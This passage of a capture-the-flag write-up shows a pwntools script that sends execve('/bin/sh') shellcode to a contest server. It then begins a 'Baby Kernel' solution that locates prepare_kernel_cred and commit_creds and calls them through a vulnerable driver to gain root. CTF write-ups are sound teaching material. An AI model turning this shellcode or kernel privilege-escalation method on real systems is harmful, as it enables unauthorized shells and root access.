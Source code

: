 And then, we found that `0x9e` for bytepos and `0x6` for bitpos are correct locations:
```python
from pwn import *

p = remote("arcade.fluxfingers.net", 1807)

p.sendlineafter(":", hex(0x9e))
p.sendlineafter(":", hex(0x6))

payload = "\x90" * 7
payload += "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

p.sendlineafter(":", payload)

p.sendline("ls")
p.interactive()
```

## Baby Kernel

First Kernel Problem, but not difficult LoL.

Let's checksec first:
```
    Arch:     amd64-64-little
    Version:  4.18.0
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0xffffffff81000000)
    RWX:      Has RWX segments
```

And the kernel gives us several option: **Call**, **Show UID**, and **Read File**. We can do arbitrary call without ASLR restriction!

First, we need to find out two necessary address: `prepare_kernel_cred` and `commit_creds`. Let's load **vmlinux** in gdb and use `x` to find address:
```
pwndbg> x prepare_kernel_cred
0xffffffff8104ee50 <prepare_kernel_cred>:	0x00c0be55
pwndbg> x commit_creds
0xffffffff8104e9d0 <commit_creds>:	0xe5894855
```

Now, we need to call *prepare_kernel_cred* first with arg `0`. Then, use its returned value as the arg of *commit_creds* (removed some useless info here):
```
----- Menu -----
1. Call
2. Show me my uid
3. Read file
4. Any hintz?
5. Bye!
> 1
I need a kernel address to call. Be careful, though or we will crash horribly...
> 
18446744071579168336
There is a good chance we will want to pass an argument. Which one is it?
> 
0
Got call address: 0xffffffff8104ee50, argument: 0x0000000000000000
flux_baby ioctl nr 900 called
flux_baby ioctl nr 900 called
flux_baby ioctl extracted param ffffffff8104ee50 as function ptr, calling it
A miracle happened. We came back without crashing! I even got a return value for you...
```